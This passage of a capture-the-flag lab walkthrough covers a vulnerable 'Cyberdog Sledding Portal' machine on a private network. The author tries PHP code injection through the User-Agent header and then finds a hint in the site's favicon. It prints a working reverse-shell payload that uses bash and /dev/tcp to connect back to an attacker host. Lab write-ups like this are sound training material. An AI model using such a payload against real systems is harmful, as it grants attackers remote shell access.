 Maybe we can inject some code there changing the User-Agent. First thing to check is what framework the website is built on. When trying to access [http://192.168.26.132/index.php](http://192.168.26.132/index.php) I got a 200 OK response and the site loads.

So now we know that the website is built on PHP lets try to inject some code.

```php
User-Agent: <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.26.128/4444 0>&1'"); ?>
```

After trying for a couple minutes, nothing, except XSS, works.

### Favicon

Another interesting thing is the webpage icon, it does look weird:

![](images/Untitled2.png)

Looking closer [http://192.168.26.132/images/favicon.jpg](http://192.168.26.132/images/favicon.jpg):

![](images/Untitled3.png)

Hard to read but if we put the words that are on the top of the image “Cyberdog Sledding Portal” in the User-Agent header it give us a hint to another page.

![](images/Untitled4.png)
